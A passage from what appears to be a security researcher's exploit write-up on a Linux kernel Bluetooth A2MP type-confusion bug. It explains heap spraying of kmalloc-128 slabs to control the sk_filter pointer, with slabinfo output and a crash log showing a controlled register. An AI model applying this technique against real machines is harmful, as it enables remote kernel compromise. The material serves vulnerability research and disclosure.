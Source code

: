 This is almost the perfect heap primitive, since the size and content can be arbitrary! The only downside is that there is no convenient primitive which allows us to free the allocations. It seems like the only way to free them is to close the HCI connection, which is a relatively slow operation. Yet, to understand how we may free allocations in a controlled way (e.g. free every second allocation to create holes), we need to pay close attention to the memory management. Note that when we store a new memory address at `ctrl->assoc`, we do not free the memory block previously stored there. Rather, that memory block will simply be forgotten when we override it. To make use of this behavior, we can override every second `ctrl->assoc` with an allocation of a different size, and once we close the HCI connection, the other half will be freed while the ones we overrode remain allocated.

#### Controlling the Out-Of-Bounds Read

So why did we want to have a heap primitive? Recall that the idea is to shape the heap and achieve a constellation where a memory block controlled by us is located one block away from the `struct amp_mgr` object. By doing so, we can control the value at offset 0x110 which represents the `sk_filter` pointer. As a result, when we trigger the type confusion, we can dereference an arbitrary pointer.

The following basic technique works quite reliably on Ubuntu which uses the SLUB allocator:

1. Allocate a lot of objects with size of 128 bytes to fill the kmalloc-128 slabs.
2. Create a new A2MP channel and hope that the `struct amp_mgr` object is adjacent to sprayed objects.
3. Trigger the type confusion and achieve a controlled out-of-bounds read.

To verify that our heap spray was successful, we can first query `/proc/slabinfo` for information about kmalloc-128 on the victim’s machine:

```
$ sudo cat /proc/slabinfo
slabinfo - version: 2.1
# name            <active_objs> <num_objs> <objsize> <objperslab> <pagesperslab> : tunables <limit> <batchcount> <sharedfactor> : slabdata <active_slabs> <num_slabs> <sharedavail>
...
kmalloc-128         1440   1440    128   32    1 : tunables    0    0    0 : slabdata     45     45      0
...
```

Then, after the heap spray, we can query once again and find that `active_objs` increased:

```
$ sudo cat /proc/slabinfo
...
kmalloc-128         1760   1760    128   32    1 : tunables    0    0    0 : slabdata     55     55      0
...
```

In the example above, we sprayed 320 objects. Now, if we manage to allocate the `struct amp_mgr` object in the surrounding of these newly sprayed objects, we may hit a panic trying to dereference a controlled pointer (observe the value of RAX):

```
[   58.881623] general protection fault: 0000 [#1] SMP PTI
[   58.881639] CPU: 3 PID: 568 Comm: kworker/u9:1 Not tainted 5.4.0-48-generic #52-Ubuntu
[   58.881645] Hardware name: Acer Aspire E5-575/Ironman_SK  , BIOS V1.04 04/26/2016
[   58.881705] Workqueue: hci0 hci_rx_work [bluetooth]
[   58.881725] RIP: 0010:sk_filter_trim_cap+0x65/0x220
[   58.881734] Code: 00 00 4c 89 e6 48 89 df e8 b8 c5 af ff 41 89 c5 85 c0 75 62 48 8b 83 10 01 00 00 48 85 c0 74 56 49 8b 4c 24 18 49 89 5c 24 18 <4c> 8b 78 18 48 89 4d b0 41 f6 47 02 08 0f 85 41 01 00 00 0f 1f 44
[   58.881740] RSP: 0018:ffffbbccc10d3ca0 EFLAGS: 00010202
[   58.881748] RAX: 4343434343434343 RBX: ffff96da38f70300 RCX: 0000000000000000
[   58.881753] RDX: 0000000000000000 RSI: ffff96da62388300 RDI: ffff96da38f70300
[   58.881758] RBP: ffffbbccc10d3d00 R08: ffff96da38f67700 R09: ffff96da68003340
[   58.881763] R10: 00000000000301c0 R11: 8075f638da96ffff R12: ffff96da62388300
[   58.881767] R13: 0000000000000000 R14: 0000000000000001 R15: 0000000000000008
[   58.881774] FS:  0000000000000000(0000) GS:ffff96da69380000(0000) knlGS:0000000000000000
[   58.881780] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
```